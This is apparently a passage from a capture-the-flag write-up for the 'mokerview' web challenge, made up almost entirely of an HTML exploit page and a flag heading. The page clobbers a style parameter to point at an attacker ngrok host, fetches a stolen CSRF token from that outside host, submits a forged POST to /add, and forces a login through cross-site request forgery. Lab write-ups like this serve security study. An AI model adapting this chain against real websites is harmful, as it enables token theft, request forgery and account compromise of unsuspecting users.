 ```html
<html>
<body>
        <!-- view clobber -->
        <form id="f1" action="https://mokerview-web.chal.irisc.tf/view" target="_blank">
            <input type="hidden" name="style" value='"{NGROK}'></form>
        <!-- forged /add goes here -->
        <form id="f2" action="NONE" method="POST" target="_blank"></form>
        <!-- login to your user -->
        <form id="f3" action="https://mokerview-web.chal.irisc.tf/login" method="POST" target="_blank">
            <input type="hidden" name="user" value="{USER}"><input type="hidden" name="password" value="{USER}"></form>
<script>
let f1 = document.getElementById("f1");
f1.submit();
new Promise(r => setTimeout(r, 500)).then(_ => {
let base = "https://mokerview-web.chal.irisc.tf/add?args=ZGFpbHk9MYAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4CZtb2tlcj1mbGFnbW9rZXI%3D&token=";
    fetch("https://{NGROK}token").then(d => d.text()).then(token => {
    let url = base + token;
    let f2 = document.getElementById("f2");
    f2.action = url;
    let f3 = document.getElementById("f3");
    f2.submit();
    f3.submit();
})
});
</script>
</body>
</html>
```

## Flag

![](https://i.imgur.com/lNvRX88.png)
